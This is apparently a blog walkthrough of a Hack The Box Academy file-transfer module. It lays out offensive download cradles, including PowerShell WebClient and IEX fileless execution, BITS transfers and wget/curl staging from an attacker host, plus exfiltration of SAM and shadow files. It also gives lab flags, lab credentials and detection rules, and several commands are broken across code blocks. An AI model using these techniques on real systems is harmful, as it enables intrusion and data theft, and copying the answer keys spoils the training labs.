Welcome to **Part 2** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **File Transfers** (Tier 0 • Medium • Offensive). We break down the underlying mechanics of cross-platform file transfer tradecraft, living-off-the-land ingress/egress mechanisms, PowerShell download cradles, SMB/WebDAV shares, and payload staging across Linux and Windows environments, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-1-getting-started/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 1: Getting Started</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 2 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-3-information-gathering-web-edition/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 3: Information Gathering (Web Edition)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `File Transfers` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/24](https://academy.hackthebox.com/module/24) |
| **Curriculum Tier & Difficulty** | `Tier 0` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 2 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Windows Ingress Primitives**: Employs PowerShell WebClient cradles (`DownloadFile`, `DownloadString`), `Invoke-WebRequest`, `certutil.exe -urlcache`, and BITSAdmin to stage payloads on hardened hosts.
* **Linux Ingress Primitives**: Utilizes native command-line tools including `curl`, `wget`, Python `urllib`, Netcat pipes, and Bash `/dev/tcp` file redirections.
* **Encrypted & Obfuscated Egress**: Exfiltrates sensitive host data (SAM hives, shadow hashes, SSH keys) using Base64 string encoding over DNS, HTTP POST requests, and WebDAV tunnels.
* **Air-Gapped & Restricted Bypass**: Implements multi-stage file transfers through intermediate jump hosts using Netcat relays, SSH tunnels, and Base64 clipboard pasting.
* **Detection Evasion Considerations**: Avoids writing binaries directly to disk by executing memory-resident scripts via `IEX (New-Object Net.WebClient).DownloadString()`.

## Executive Summary & Assessment Scope

File transfer tradecraft is an essential core capability in offensive operations, bridging the gap between initial code execution and full operational capability. In hardened enterprise environments, security controls such as AppLocker, restricted outbound firewall rules, and endpoint detection agents severely restrict arbitrary binary downloads.

This module deconstructs cross-platform file delivery techniques across Windows and Linux targets. We examine living-off-the-land (LOL) utilities native to the operating system, fileless memory execution cradles, non-interactive shell transfer strategies, and techniques for bypassing strict perimeter inspection. Every exercise is accompanied by verified command executions and flag validations.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### File Transfers

#### Technical Methodology & Exploit Execution:

```bash
ssh <username>@<target-IP>
```
and then we will be requested to enter the password.
For windows – we will use xfreerdp with the command:
```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
```
/dynamic-resolution

Throughout the module, those steps will be referred as 'login to the
Linux/Windows target machine'.


### Windows File Transfer Methods

> **Lab Question (Page 2)**: Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer.
>
> **Flag / Answer**: `b1a4ca918282fcd96004565521944a3b`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

running nmap, we can observe the target machine has http service
available, which may be enabling file download:

we will run the command:
```bash
wget http://<target-IP>/flag.txt
```


All we have to do is to cat the flag:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


> **Lab Question (Page 3)**: Upload the attached file named upload_win.zip to the target using the method of your choice. Once uploaded, unzip the archive, and run "hasher upload_win.txt" from the command line. Submit the generated hash as your answer .
>
> **Flag / Answer**: `f458303ea783c224c6b4e7ef7f17eb9d`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this question we are provided with 'upload_win.zip' download
link.
Lets download it to the pwnbox (by pasting the download link in the URL:

→


Now that the file is in the pwnbox, lets upload it to the target machine for
analysis.
Now, Lets RDP login to the target machine with the provided credentials from
the section: 'htb-student:HTB_@cademy_stdnt!'


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### To set the server in the pwnbox, we will use the command

#### Technical Methodology & Exploit Execution:

```bash
python -m http.server 8080
```
to initate http server in port 8080

While the server is listening, lets download the file to the target machine.
Lets open powershell on 'htb-student\Documents' , and download the file using
the command:
```bash
iwr -uri http://<attakcer-IP>:8080/upload_win.zip -outfile
```
upload_win.zip


Here is the file!


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


*_Figure 4.4 — Lab execution and output verification (Page 4)_*


### Lets extract it

> **Lab Question (Page 5)**: Connect to the target machine via RDP and practice various file transfer operations (upload and download) with your attack host. Type "DONE" when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
hasher upload_win.txt
```


We get the hash value.

Question - Optional: Connect to the target machine via RDP and practice
various file transfer operations (upload and download) with your attack host.
Type "DONE" when finished.
Answer: DONE
Method: lets transfer the file to the target machine using ftp server we will set
on our pwnbox. First, lets download the python module that allows us to do so:
'pyftpdlib' – we will install it with pip, using the command:
```bash
sudo pip3 install pyftpdlib
```


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### powershell command

#### Technical Methodology & Exploit Execution:

```bash
sudo python3 -m pyftpdlib --port 21
```


On the target machine, we will download the file to C:\Users\Public, using the
```bash
powershell command:
(New-Object
```
Net.WebClient).DownloadFile('ftp://10.10.14.116/upload_win.z
ip', 'C:\Users\Public\upload_win.zip')


And here is the downloaded file.


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


*_Figure 6.4 — Lab execution and output verification (Page 6)_*


### Linux File Transfer Methods

> **Lab Question (Page 7)**: Download the file flag.txt from the web root using Python from the Pwnbox. Submit the contents of the file as your answer.
>
> **Flag / Answer**: `5d21cf3da9c0ccb94f709e2559f3ea50`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the following python command:
```bash
python3 -c 'import
```
urllib.request;urllib.request.urlretrieve("http://<target-
IP>/flag.txt", "flag.txt")'
when downloaded, we can cat the flag:


Question: Upload the attached file named upload_nix.zip to the target using
the method of your choice. Once uploaded, SSH to the box, extract the file, and
```bash
run "hasher <extracted file>" from the command line. Submit the generated
```
hash as your answer .
Answer: 159cfe5c65054bbadb2761cfa359c8b0
Method: First, lets download 'upload_nix.zip' to the pwnbox, just like we got
'upload_win.zip' in the windows equivalent question.

This time we will unzip the zip in the  pwnbox, and transfer the file in it to the
target machine.

Lets unzip the 'upload_nix.zip' using the command:
```bash
unzip upload_nix.zip
```


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


We have the output file 'upload_nix.txt'
Then, we will proceed with the same initialization of the python server (on the
pwnbox) in order to get 'upload_nix.txt' to the target machine
:
```bash
python -m http.server 8080
```


While the server is running, lets ssh login to the target machine with the
provided credentials 'htb-student:HTB_@cademy_stdnt!'.
When inside, we will download the the file with 'wget':
```bash
wget http://<attacker-IP>:8080/upload_nix.txt
```


Lets run the hasher on the txt file:
```bash
hasher upload_nix.txt
```


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


### pwnbox)

> **Lab Question (Page 9)**: Connect to the target machine via SSH and practice various file transfer operations (upload and download) with your attack host (workstation). Type "DONE" when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for download from the target machine – we can use curl (on the
pwnbox):
```bash
curl http://<target-IP>/flag.txt > flag.txt
```


For upload via ssh: we can use scp (on the pwnbox):
```bash
scp upload_nix.txt htb-student@<target-IP>:/home/htb-student
```
to upload 'upload_nix' to the target machine, to path '/home/htb-student'


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### Transferring Files with Code

> **Lab Question (Page 10)**: Connect to the target machine via SSH (Username: htb- student | Password:HTB_@cademy_stdnt!) and practice various file transfer operations (upload and download) with your attack host. Type "DONE" when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets create on the pwnbox file called flag.txt, upload it to the target
machine and download it back.
Then lets set on the pwnbox:
```bash
python -m http.server 8080
```

now we ssh login to the target machine, and download the flag using python:
```bash
python3 -c 'import
```
urllib.request;urllib.request.urlretrieve("http://<attacker-
IP>:8080/flag.txt", "flag.txt")'
and confirm download on the target machine:


Now lets set the server on the target machine, and download the file to the
pwnbox. And on the pwnbox – we will use ruby to download the file (not
before we remove the original flag on the pwnbox):
```bash
ruby -e 'require "net/http"; File.write("flag.txt",
```
Net::HTTP.get(URI.parse("http://<target-
IP>:8080/flag.txt")))'


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### Miscellaneous File Transfer Methods

> **Lab Question (Page 11)**: Use xfreerdp or rdesktop to connect to the target machine via RDP (Username: htb-student | Password:HTB_@cademy_stdnt!) and mount a Linux directory to practice file transfer operations (upload and download) with your attack host. Type "DONE" when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets RDP connect to the target machine using the provided credentials
'htb-student:HTB_@cademy_stdnt!'.
Now, on the pwnbox lets create a directory called 'flag' , and in it 'flag.txt' in it
we write 'myflag' .  Lets get it on the target machine.

Lets mount it on the windows machine using 'xfreerdp' using the command:
```bash
xfreerdp /v:<target-IP> /d:HTB /u:htb-student
```
/p:HTB_@cademy_stdnt! /drive:linux,/home/htb-ac-1099135/flag
where 'htb-ac-1099135' is the pwnbox user.
when done, RDP window will be opened, lets open 'This PC':

We have this linux drive – lets enter it:

The flag is sucsessfully mounted on the windows machine.


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### Living off The Land

> **Lab Question (Page 12)**: Connect to the target machine via RDP ((Username: htb- student | Password:HTB_@cademy_stdnt!)) and use Living Off The Land techniques presented in this section or any other found on the LOLBAS and GTFOBins websites to transfer files between the Pwnbox and the Windows target. Type "DONE" when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets RDP login to the target machine using the provided
credentials - 'htb-student:HTB_@cademy_stdnt!':
Now, lets create on the pwnbox file 'flag.txt' – in it the content 'myflag'.
Now, on the pwnbox – we will start the usual python server:
```bash
python -m http.server 8080
```

and on the windows target machine, we open powershell on 'htb-
student\Documents', and run the command:
```bash
Import-Module bitstransfer; Start-BitsTransfer -Source
```
"http://<attacker-IP>/flag.txt" -Destination ".\flag.txt"


And we have the flag transferred.


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1105, T1041, T1048.003, T1071.001` |
| **Common Weakness Enumerations** | `CWE-200, CWE-319` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1105`](https://attack.mitre.org/techniques/T1105/) | **Ingress Tool Transfer** | `Command and Control` | Downloading exploitation binaries, LinPEAS/WinPEAS, and scripts |
| [`T1041`](https://attack.mitre.org/techniques/T1041/) | **Exfiltration Over C2 Channel** | `Exfiltration` | Exfiltrating SAM, SYSTEM, shadow files over HTTP/SMB/FTP |
| [`T1048.003`](https://attack.mitre.org/techniques/T1048/) | **Exfiltration Over Alternative Protocol: Symmetric Protocol** | `Exfiltration` | Base64 string exfiltration through DNS or ICMP |
| [`T1071.001`](https://attack.mitre.org/techniques/T1071/) | **Application Layer Protocol: Web Protocols** | `Command and Control` | Python SimpleHTTPServer, Certutil, Bitsadmin transfers |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-200`: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [`CWE-319`: Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Sysmon Event ID 1: Monitor execution of `certutil.exe -urlcache -split -f`, `bitsadmin.exe /transfer`, or `curl.exe` with external IP destinations.
- Sysmon Event ID 3: High-volume outbound network connections from non-browser administrative binaries (`powershell.exe`, `cmd.exe`).
- Linux Auditd: Alert on curl/wget child processes spawned from web service daemon users (`www-data`, `apache`, `nginx`).


---

## Authoritative References & Recommended Reading

- [HTB Academy: File Transfers Module](https://academy.hackthebox.com/module/24) — *Official Hack The Box curriculum track*
- [LOLBAS Project: Windows Living Off The Land Binaries](https://lolbas-project.github.io/) — *Complete reference of built-in Windows binaries usable for file ingress/egress*
- [GTFOBins: File Transfer Binaries](https://gtfobins.github.io/) — *Unix binaries capable of remote file upload and download*
